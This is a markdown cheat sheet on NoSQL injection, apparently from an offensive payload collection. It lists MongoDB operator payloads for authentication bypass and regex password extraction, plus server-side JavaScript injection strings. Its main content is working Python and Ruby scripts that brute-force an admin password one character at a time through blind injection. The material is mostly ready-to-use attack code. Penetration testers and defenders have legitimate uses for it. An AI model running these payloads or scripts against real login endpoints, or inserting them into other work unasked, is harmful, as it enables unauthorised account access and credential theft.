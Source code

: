 # NoSQL Injection

> NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Summary

* [Tools](#tools)
* [Exploit](#exploits)
  * [Authentication Bypass](#authentication-bypass)
  * [Extract length information](#extract-length-information)
  * [Extract data information](#extract-data-information)
* [Blind NoSQL](#blind-nosql)
  * [POST with JSON body](#post-with-json-body)
  * [POST with urlencoded body](#post-with-urlencoded-body)
  * [GET](#get)
* [MongoDB Payloads](#mongodb-payloads)
* [References](#references)

## Tools

* [NoSQLmap - Automated NoSQL database enumeration and web application exploitation tool](https://github.com/codingo/NoSQLMap)
* [nosqlilab - A lab for playing with NoSQL Injection](https://github.com/digininja/nosqlilab)
* [Burp-NoSQLiScanner - Plugin available in burpsuite](https://github.com/matrix/Burp-NoSQLiScanner)  

## Exploit

### Authentication Bypass

Basic authentication bypass using not equal ($ne) or greater ($gt)

```json
in DATA
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto

in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

### Extract length information

```json
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

### Extract data information

```json
in URL
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```

Extract data with "in"

```json
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```

### SSJI 

```json
';return 'a'=='a' && ''=='
";return 'a'=='a' && ''=='
0;return true
```


## Blind NoSQL

### POST with JSON body

python script:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

### POST with urlencoded body

python script:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','&','$']:
            payload='user=%s&pass[$regex]=^%s&remember=on' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302 and r.headers['Location'] == '/dashboard':
                print("Found one more char : %s" % (password+c))
                password += c
```

### GET

python script:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username='admin'
password=''
u='http://example.org/login'

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload=f"?username={username}&password[$regex]=^{password + c}"
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print(f"Found one more char : {password+c}")
        password += c
```

ruby script:

```ruby
require 'httpx'

username = 'admin'
password = ''
url = 'http://example.org/login'
# CHARSET = (?!..?~).to_a # all ASCII printable characters
CHARSET = [*'0'..'9',*'a'..'z','-'] # alphanumeric + '-'
GET_EXCLUDE = ['*','+','.','?','|', '#', '&', '$']
session = HTTPX.plugin(:persistent)

while true
  CHARSET.each do |c|
    unless GET_EXCLUDE.include?(c)
      payload = "?username=#{username}&password[$regex]=^#{password + c}"
      res = session.get(url + payload)
      if res.body.to_s.match?('Yeah')
        puts "Found one more char : #{password + c}"
        password += c
      end
    end
  end
end
```

## MongoDB Payloads

```bash
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';return 'a'=='a' && ''=='
";return(true);var xyz='a
0;return true
$gt 
{"$gt":""}
{"$gt":-1}
$ne
{"$ne":""}
{"$ne":-1}
 $nin
{"$nin":1}
{"$nin":[1]}
{"$where":  "sleep(1000)"}
```

## References

* [Les NOSQL injections Classique et Blind: Never trust user input - Geluchat](https://www.dailysecurity.fr/nosql-injections-classique-blind/)
* [Testing for NoSQL injection - OWASP/WSTG](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
* [NoSQL injection wordlists - cr0hn](https://github.com/cr0hn/nosqlinjection_wordlists)
* [NoSQL Injection in MongoDB - JUL 17, 2016 - Zanon](https://zanon.io/posts/nosql-injection-in-mongodb)
* [Burp-NoSQLiScanner](https://github.com/matrix/Burp-NoSQLiScanner/blob/main/src/burp/BurpExtender.java)
